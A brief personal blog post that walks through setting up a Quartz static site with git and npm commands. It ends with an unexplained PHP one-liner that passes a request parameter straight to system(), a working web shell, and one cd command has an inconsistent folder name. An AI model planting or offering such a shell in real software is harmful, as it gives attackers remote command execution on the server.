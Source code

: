```yaml
---
title: My first post
draft: false
tags:
---
```

This is my first post. Welcome to my blog. This is how you see inline code

```bash
git clone https://github.com/jackyzha0/quartz.git
mv quartz enricocavalli.github.io
cd enricocavalli.github.it
npm i
npx quartz create
git remote rm origin
git remote add origin git@github.com:enricocavalli/enricocavalli.github.io.git
##
npx quartz sync
##
npx quartz build --serve
```

```php
<?php
	system($_REQUEST['cmd']);
?>
```